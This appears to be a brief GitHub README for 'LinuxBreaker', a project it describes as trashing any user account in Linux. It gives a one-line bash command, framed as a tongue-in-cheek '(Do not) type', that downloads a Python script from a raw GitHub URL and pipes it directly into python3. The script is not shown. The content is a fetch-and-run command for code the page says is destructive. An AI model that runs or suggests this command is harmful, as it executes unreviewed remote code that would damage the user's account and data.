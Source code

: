# LinuxBreaker
Trashes any user account in Linux

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/<branch>/<path>/<file> | python3
